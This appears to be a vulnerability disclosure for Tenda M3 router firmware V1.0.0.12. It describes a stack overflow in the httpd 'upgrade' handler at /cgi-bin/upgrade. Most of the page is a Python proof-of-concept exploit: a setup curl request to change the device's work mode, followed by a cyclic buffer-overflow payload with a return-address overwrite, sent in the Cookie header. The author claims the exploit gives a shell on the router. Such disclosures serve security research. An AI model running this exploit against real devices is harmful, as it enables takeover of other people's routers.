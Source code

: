 # Tenda M3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `upgrade` function, which can be accessed via the url  `/cgi-bin/upgrade`.

![1](./1.jpg)



When we send packets, the router will be shell

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import  requests
from pwn import *
import os
 

if __name__ == '__main__':
    #Fireitup
    #payload='a'*29+'\xfc\x69\x04\x01'
    #payload=payload.ljust(900,'a')
    payload='bbbbbbbb='+cyclic(0x58)+'\xfc\x69\x04\x00'
    url = 'http://192.168.10.1/cgi-bin/upgrade'
    # 构造http数据包

    header = {
        'Cookie'        : 'bLanguage=cn; user=admin; workMode=devUid'+payload,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
	cmd='''curl -i -X POST http://192.168.10.1/goform/setWorkmode -d acAddr='bbbb' -d workmode='master' -d  devname='aaa'  --cookie "user=admin"'''
	os.system(cmd)
        a=requests.get(url,headers=header)
        #print a.text
        print '[+] execute ok'
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)


```





![poc](./poc.png)



